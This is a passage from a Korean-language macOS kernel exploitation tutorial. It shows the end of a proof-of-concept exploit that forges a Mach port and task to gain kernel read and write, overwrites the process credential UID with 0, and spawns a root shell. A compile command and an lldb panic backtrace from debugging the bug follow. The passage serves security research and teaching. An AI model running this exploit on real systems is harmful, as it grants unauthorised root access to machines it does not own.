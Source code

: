 	uint64_t clock_list = get_clock_list_addr((uint64_t) fake_port, manipulated_port);
	fake_port->io_bits = IO_BITS_ACTIVE | IKOT_TASK; // for task trap
	fake_port->io_references = 0x01; // [osfmk/ipc/ipc_object.c] (cuz of, assert(object->ioreferences > 0) pass) 
	uint64_t kernel_addr = get_kernel_addr((uint64_t) fake_port, fake_task, clock_list, manipulated_port);

	// Get my process and kernel process
	uint64_t current_process = get_proc_addr(getpid(), kernel_addr, fake_task, manipulated_port); 
	printf("[+] Found current process addr : %llx\n", current_process);
	uint64_t kernel_process = get_proc_addr(0, kernel_addr, fake_task, manipulated_port);
	printf("[+] Found kernel addr : %llx\n", kernel_process);

	// Kernel AAR/AAW => kernel taskport & kernel port right
	dumpdata* data = get_kernel_priv(kernel_process, &fake_port, fake_task, manipulated_port);
	memcpy(fake_port, data->dump_port, 0x1000);
	memcpy(fake_task, data->dump_task, 0x1000);
	*(uint64_t*)(((uint64_t)fake_port) + TASK_GAP_IN_IPC_OBJ) = fake_task;
	*(uint64_t*)(((uint64_t)fake_port) + 0xa0) = 0xff; 
	*(uint64_t*)(((uint64_t)fake_task) + 0x2b8) = data->dump_itk_kern_sself;
	mach_port_t kernel_port;
	task_get_special_port(manipulated_port, 4, &kernel_port);
	
	// Privilege Esccalation
	uint64_t cred;
	mach_vm_size_t read_bytes = 8;
	mach_vm_read_overwrite(kernel_port, (current_process + UCRED_GAP_IN_PROCESS), (size_t)8, (mach_vm_offset_t)(&cred), &read_bytes); // AAR in Kernel
	vm_offset_t root_uid = 0;
	mach_msg_type_number_t write_bytes = 8;
	mach_vm_write(kernel_port, (cred + CR_RUID_GAP_IN_UCRED), &root_uid, (mach_msg_type_number_t)write_bytes); // AAW in Kernel
    system("/bin/bash"); // Get Shell
    
}
{% endhighlight %}

컴파일: `clang -framework IOKit -framework Foundation -framework CoreFoundation -pagezero_size 0x16000 poc.m -o poc`

<br>

#### Debugging

이전 [시리즈](http://theori.io/research/korean/osx-kernel-exploit-1)를 통해 macOS 커널디버깅을 익히고 나서 이번 내용을 보기 바란다. 이 버그를 디버깅 해 볼 것인데, 트리거 될때마다 컨트롤 플로우가 항상 달라 같은 결과를 보기가 어렵다. 따라하기보다는 어떻게 디버깅을 해서 접근을 하는지에 대한 참고로 사용하기 바란다.

{% highlight bash %}
(lldb) bt
* thread #2, name = '0xffffff8019752980', queue = '0x0', stop reason = signal SIGSTOP
    frame #0: 0xffffff801200bb4e kernel`Debugger [inlined] hw_atomic_sub(delt=1) at locks.c:1513 [opt]
    frame #1: 0xffffff801200bb4e kernel`Debugger(message=<unavailable>) at model_dep.c:1025 [opt]
    frame #2: 0xffffff8011ef368c kernel`panic(str="\"a freed zone element has been modified in zone %s: expected %p but found %p, bits changed %p, at offset %d of %d in element %p, cookies %p %p\"@/Library/Caches/com.apple.xbs/Sources/xnu/xnu-3789.21.4/osfmk/kern/zalloc.c:651") at debug.c:458 [opt]
    frame #3: 0xffffff8011f3f5c0 kernel`backup_ptr_mismatch_panic [inlined] zone_element_was_modified_panic(offset=0x0000000000000000) at zalloc.c:642 [opt]
    frame #4: 0xffffff8011f3f559 kernel`backup_ptr_mismatch_panic(zone=<unavailable>, element=<unavailable>, primary=0x4141414141414141, backup=<unavailable>) at zalloc.c:710 [opt]
    frame #5: 0xffffff8011f3e739 kernel`try_alloc_from_zone(zone=<unavailable>, check_poison=<unavailable>) at zalloc.c:832 [opt]
    frame #6: 0xffffff8011f3d174 kernel`zalloc_internal(zone=<unavailable>, canblock=1, nopagewait=0) at zalloc.c:2284 [opt]
  * frame #7: 0xffffff8011f84580 kernel`vm_map_copyin_internal at vm_map.c:9428 [opt]
    frame #8: 0xffffff8011f8454d kernel`vm_map_copyin_internal(src_map=<unavailable>, src_addr=140351697002496, len=3240, flags=<unavailable>, copy_result=<unavailable>) at vm_map.c:10279 [opt]